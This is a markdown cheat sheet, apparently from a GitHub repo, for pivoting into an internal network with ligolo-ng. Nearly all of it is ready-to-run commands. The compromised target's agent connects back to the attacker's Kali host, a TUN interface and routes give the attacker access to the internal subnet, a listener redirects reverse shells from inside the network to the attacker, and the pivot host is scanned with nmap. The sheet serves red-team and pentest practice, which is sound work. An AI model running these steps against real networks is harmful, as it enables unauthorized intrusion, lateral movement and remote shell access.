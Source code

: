 # 🛡️ ligolo-ng Cheat Sheet

External Interface: `10.1.1.10/24`  
Internal Interface: `10.1.2.4/24`

## 🖥️ On Kali (Attacker Machine)
1. Create and enable the TUN interface
```bash
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip addr show ligolo
```
2. Start the ligolo proxy
```bash
ligolo-proxy -selfcert
# Use -autocert during real red team engagements
```
## 🧩 On Target Machine
3. Run the agent to connect to the attacker
```bash
./agent -connect <kali_ip>:11601 -ignore-cert
# If -autocert was used on the proxy, -ignore-cert is not required
```
## 🔗 On Kali (in ligolo-ng session)
4. Interact with session
```bash
ligolo-ng » session
```
5. Add a route to the internal network
```bash
ip route add 10.1.2.0/24 dev ligolo
```
6. Start the tunnel
```bash
start
```
✅ Tunnel to the internal network is now established.
## 🔄 Reverse Shell from Internal to Attacker (Port Redirection)
7. Setup a listener inside the ligolo-ng session
```bash
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

# 0.0.0.0:30000 → Listens on the target machine
# 127.0.0.1:10000 → Redirects traffic to attacker machine

💡 While generating a reverse shell payload:
# Use target machine’s IP and port 30000 (or any random port)
# Traffic will be forwarded to attacker's port 10000 (or any random port)
```
## 📡 Access Pivot Machine’s Ports (Direct Scanning)
8. Add a specific route to access the pivot machine itself
```bash
ip route add 240.0.0.1/32 dev ligolo
# 240.0.0.1 is a special IP address used by ligolo-ng to represent the pivot machine itself (the host where the agent is running).
```
9. Scan the pivot machine using Nmap
```bash
nmap 240.0.0.1
```
🔍 This will reveal open ports on the pivot machine, accessible via the ligolo tunnel.  
## 🧹 Cleanup – Deleting the ligolo Interface (On Kali)
10. Remove the TUN interface after you're done
```bash
ip link set ligolo down
ip link delete ligolo
# Safely deletes the ligolo TUN interface from your Kali machine.
```
